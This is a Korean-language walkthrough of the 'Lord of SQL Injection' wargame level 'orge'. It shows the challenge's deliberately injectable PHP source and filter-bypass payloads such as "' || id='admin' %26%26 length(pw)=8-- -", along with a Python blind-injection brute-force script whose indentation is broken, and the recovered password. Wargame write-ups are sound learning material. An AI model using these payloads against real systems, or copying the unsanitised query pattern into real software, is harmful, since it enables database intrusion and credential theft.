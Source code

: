 # Lord of SQL Injection No.7 - orge
## 문제 출제 의도
'and'나 'or'을 사용하지 않고 Blind SQL을 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스코드
orge의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
    - Get 방식으로 받은 문자열에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 문자열에 'or'나 'and'가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - 받은 pw 값과 GET방식으로 입력한 pw가 같다면 문제풀이에 성공한다.

## 문제 해결
- 추가 문자열
    비밀번호가 몇글자인지 알아내기 위해 URL 뒤에 다음과 같은 문자열을 추가 하여 확인한다.   
    ~~~
    ?pw=' || id='admin' %26%26 length(pw)=8-- -
    ~~~      
    - 이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
    - 이때 '&'는 인식 불가하기 때문에 이를 아스키 코드화 하여 %26으로 적어준다.
- 해결 코드
    - 위와 비슷한 방법으로 계속해서 URL을 조작하면 비밀번호를 유추해낼 수 있지만 코드를 작성해서 풀면 더욱 편하다.
    - 다음은 파이썬 코드이다.
    ~~~
    import urllib.request
    from urllib.parse import quote
    key = ""
    for i in range(1, 9):
    for j in range(32, 127):
        url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
        data="' || id='admin'&& substr(pw,1,{})='{}'#".format(str(i), key + chr(j))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-Agent", "Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=5risr964i7sta3c1mgd3mphah1")

        res = urllib.request.urlopen(re)

    if str(res.read()).find("Hello admin") != -1:
        key += chr(j).lower()
        print(key)
        break
    print(key)
    ~~~
- 다음 코드를 실행하면 key=6c864dec이 출력된다.
- 6c864dec를 GET방식으로 입력하면 해결된다.
~~~
http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
~~~